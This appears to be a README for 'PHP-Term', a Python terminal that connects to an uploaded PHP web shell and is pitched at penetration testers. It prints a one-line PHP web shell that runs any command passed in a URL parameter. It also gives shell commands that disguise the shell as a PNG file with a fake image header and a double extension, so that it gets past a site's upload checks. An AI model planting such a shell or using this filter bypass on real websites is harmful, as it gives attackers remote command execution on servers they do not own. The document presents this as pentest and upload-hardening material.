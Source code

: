 # PHP-Term
![434513902-3930a006-4bf9-4257-bd3c-8fef646412b2 (1)](https://github.com/user-attachments/assets/5137d278-4c6d-48ef-94be-c952e2c87680)


A terminal for penetration testers, to connect to an uploaded php payload. (Made with Python).
The payload itself is one simple PHP code line to give the tester access to a remote reverse shell through unsanitized uplaod features of a website.
It looks like this:
```
<?php system(\$_GET['cmd']); ?>"
```

To further test for sanitized uploads you can use this to create fake PNG files.
E. x.:
Create an empty PNG formatted file:
```
printf "\x89PNG\r\n\x1a\n" > payload.png
```

Append PHP-Payload:
```
echo "<?php system(\$_GET['cmd']); ?>" >> payload.png
```

Give it a PHP alias:
```
mv payload.png payload.png.php
```

This will also work with different file formats and might help you to sanitize the uploads properly.
